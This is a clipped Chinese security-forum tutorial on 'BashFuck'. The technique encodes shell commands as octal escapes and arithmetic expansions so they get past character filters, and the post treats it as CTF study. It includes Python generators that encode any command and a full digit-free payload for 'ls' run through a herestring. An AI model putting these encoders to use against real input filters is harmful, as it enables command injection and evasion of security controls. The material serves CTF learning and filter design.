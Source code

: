 ```yaml
---
title: 奇安信攻防社区 - BashFuck 学习
url: https://forum.butian.net/share/2792
clipped_at: 2024-03-20 09:36:50
category: default
tags: 
 - forum.butian.net
---
```



# 奇安信攻防社区 - BashFuck 学习

# 0x0e 前言

本来是在 CTF 刷刷题目，然后有个知识点不太明白所以就去找着了 lazy 师傅问了一下，结果发了一个 bashfuck 的知识点过来（x，本来一个简单的绕过却有了新的思路，索性来记录一下。

# 注意：因为 debian、Ubuntu 系统的 sh 软连接是到 dash 的，centos 的 sh 软链接连接到 bash，但是 kali 的 zsh 不是很兼容 dash 所以 IFS 就解析不了，还是直接用空格代替即可

# 0x01common\_oct

这个就是最常规的可以用十六进制，或者八进制来执行命令

```python
sum_data = ''
str1 = input("请输入要转化的命令:")
str1 = str1.strip()  # 去除首尾空格
data_len = len(str1)  # 判断总长度来循环
for i in range(data_len):
    data = ord(str1[i])
    if data == ord(' '):  # 检查空格字符
        sum_data += "'$IFS$'"
    else:
        data_8 = oct(data)[2:]
        final_data = '\\' + data_8
        sum_data += final_data
print("common_oct")
print("$'" + sum_data + "'")
```

出来直接使用即可，在 kali 里面的 ifs 直接用空格代替即可  
example：

```shell
$'\154\163' #= ls
```

# 0x02bashfuck\_x

运用到的原理就是算术拓展 `$(())`，这个的返回值为 0，并且可以有这种用法 `$((1<<1)#2binary)` 来构造出一些命令  
还是拿 ls 来举例子，如果不去利用二进制来构造可以这么写

```shell
"$"''\''\'$(($((1))54))'\'$(($((1))63))\'
```

构造出来就是 common\_oct 的写法  
然后这里也可以使用二进制来构造

```shell
$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```

因为相对于前面的你构造出 54 啊或者是其他数字比较麻烦，而在探姬师傅的 wiki 下面说明了几种可以表示 0 和 1 的方法，所以用 01 来代替能利用 py 快速的得出结果并且可以实现无数字来打  
一些对应：

```shell
>echo ${#}
>0
>echo ${##}
>1
>echo ${#_}
>1
>echo ${_}
>1
>echo ${?}
>0
>echo ${?#}
>1
```

等等都可以用来构造  
下面附上相关函数

```python
def bashfuckx():
    final_str1 = ''
    final_str2 = ''
    final_str3 = ''
    str3 = input("请输入要转化的命令:")
    for j in str3:
        final_str1 += '$0<<<$0\\<\\<\\<\\$\\\'' +f'\\\\$(($((1<<1))#{bin(int(get_oct(j)))[2:]}))'+ '\\\''
        final_str2 = '$0<<<$0\\<\\<\\<\\$\\\'' +final_str1.replace('1', '${##}')+ '\\\''  # 用 ${##} 来替换 1
        final_str3 = '${!#}<<<${!#}\\<\\<\\<\\$\\\'' +final_str1.replace('1', '${##}').replace('0', '${#}')+ '\\\''  # 用 ${#} 来替换 0
    result = input("请输入你要的格式\n1代表直接转化\n2代表替换1\n3代表全部替换（无数字）")
    if result == '1':
        print(final_str1)
    elif result == '2':
        print(final_str2)
    elif result == '3':
        print(final_str3)
    else:
        print("无效输入！")
```

然后这里需要解决一个问题，你会发现你直接执行命令是没办法执行的，这里探姬师傅也是给出了相关的连接  
[https://www.gnu.org/software/bash/manual/html\_node/Shell-Expansions.html](https://www.gnu.org/software/bash/manual/html_node/Shell-Expansions.html)  
总的来说就是扩展顺序，我们在八进制转义的时候已经扩展了一次，所以后面不会再次解析  
所以这里就用标准输出来完成解析

```shell
/bin/bash<<<
```

所以最后的 playload 的前面要加上:`$0<<<`  
`$0` 可以表示当前脚本的文件名，在终端中，`$0` 其实就是 bash 本身。

# 0x03bashfuck\_y

这里和上面的都差不多只是对 - 1 的取反进行了利用

```php
oct_list = [  # 构造数字 0-7 以便于后续八进制形式的构造
    '$(())',  # 0
    '$((~$(($((~$(())))$((~$(())))))))',  # 1
    '$((~$(($((~$(())))$((~$(())))$((~$(())))))))',  # 2
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 3
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 4
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 5
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 6
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 7
]
```

这样就可以使用 `$(())` 去构造 `$'\xxx\xxx\xxx\xxx'`

再引入我们前面提到的，变量赋值，我们就可以轻松的用 `$(())` 拿到 sh

```shell
bashFuck = ''
bashFuck += '__=$(())'  # set __ to 0
bashFuck += '&&'  # splicing
bashFuck += '${!__}<<<${!__}\\<\\<\\<\\$\\\''  # got 'sh'
# bashFuck = __=$(())&&${!__}<<<${!__}\\<\\<\\<\\$\\\'
```

得到我们第四种 playload:

```shell
Command:ls
Charset : ! $ & ' ( ) < = \ _ { } ~
Total Used: 13
Total length = 393
Payload = __=$(())&&${!__}<<<${!__}\<\<\<\$\'\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\'
```

参考文章：  
[https://github.com/ProbiusOfficial/bashFuck?tab=readme-ov-file](https://github.com/ProbiusOfficial/bashFuck?tab=readme-ov-file)
